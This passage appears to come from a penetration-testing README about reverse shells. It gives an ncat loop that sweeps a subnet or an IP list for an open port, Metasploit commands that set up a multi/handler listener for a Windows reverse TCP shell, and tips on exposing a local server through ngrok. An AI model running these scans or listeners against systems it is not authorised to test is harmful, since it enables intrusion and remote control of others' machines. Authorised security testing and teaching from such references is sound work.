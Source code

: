 Check if connection to a specified TCP port (e.g. port 22 or 23) is possible:

```bash
for i in {0..255}; do ncat -nv "192.168.8.${i}" 9000 -w 2 -z 2>&1 | grep -Po '(?<=Connected\ to\ )[^\s]+(?=\.)'; done

for ip in $(cat ips.txt); do ncat -nv "${ip}" 9000 -w 2 -z 2>&1 | grep -Po '(?<=Connected\ to\ )[^\s]+(?=\.)'; done
```

Find out how to create an SSL/TLS certificate from my other [project](https://github.com/ivan-sincek/secure-website/tree/master/crt).

### multi/handler

Set up a listener (change the PAYLOAD, LHOST, and LPORT as necessary):

```fundamental
msfconsole -q

use exploit/multi/handler

set PAYLOAD windows/shell_reverse_tcp

set LHOST 192.168.8.185

set LPORT 9000

exploit
```

### ngrok

Use [ngrok](https://ngrok.com/download) to give your local web server a public address, but do not expose the web server for too long if it is not properly hardened due to security concerns.

I advise you not to transfer any sensitive data over it, just in case.

### Additional References

Credits to the authors!

* [infosecmatter.com/bug-bounty-tips](https://www.infosecmatter.com/bug-bounty-tips)
* [pentestbook.six2dez.com](https://pentestbook.six2dez.com)
